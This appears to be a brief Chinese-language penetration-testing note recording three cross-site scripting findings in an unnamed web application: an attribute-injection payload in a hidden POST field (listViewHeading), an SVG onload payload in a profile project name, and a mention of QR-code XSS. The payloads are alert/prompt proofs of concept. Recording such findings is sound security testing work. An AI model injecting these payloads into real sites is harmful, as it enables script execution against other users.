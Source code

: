 1.隐藏输入中的xss（绕过输入转义）
参数，位于post请求中的listViewHeading=
有效负载：" accesskey=X onclick=alert()
![[Pasted image 20241014211401.png]]
" accesskey=X onclick=alert() xxx
![[Pasted image 20241014211445.png]]
success

2.个人主页的项目名称中可以插入xsspayload
```
post
name="><svg onload="prompt(/xss/);"><!--
```

3.二维码xss
二维码执行js
